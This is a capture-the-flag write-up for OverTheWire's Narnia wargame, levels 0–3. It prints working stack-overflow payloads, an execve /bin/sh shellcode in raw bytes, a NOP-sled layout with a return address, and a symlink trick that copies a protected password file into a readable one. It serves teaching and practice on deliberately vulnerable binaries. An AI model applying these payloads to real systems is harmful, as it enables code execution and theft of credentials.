 # Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

```console
gdb narnia2
```

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```

## Narnia3

In the stack are allocated `char ofile[16] = "/dev/null"` and `char ifile[32]` and there is also a `strcpy(ifile, argv[1])` that copies in ifile argv[1]. Looking at the stack we can see that the two buffers are one above the other, then writing to **ifile** (strcpy doesn't check the length) also **ofile** can be written.
You can analyze the stack using:

```console
gdb narnia3
```

`run AAAAAAAAAAAAAAAAAAAAAAAAAAA`
`b open@plt`
`x/700xw $esp`

argv[1] will be:
`/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile`

Now you can set up your files and folder in your filesystem:

**Copy this in /tmp/yourscript.sh**

```console
#!/bin/bash

mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/

touch /tmp/yourfile

chmod 777 /tmp/yourfile

ln -s /etc/narnia_pass/narnia4 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

/narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/yourfile

cat /tmp/yourfile
```

>The directory "AAAAAAAAAAAAAAAAAAAAAAAAAAA" could be already created due to the number of the players in the server. You can create your own 32-bytes long directory with any character you want.
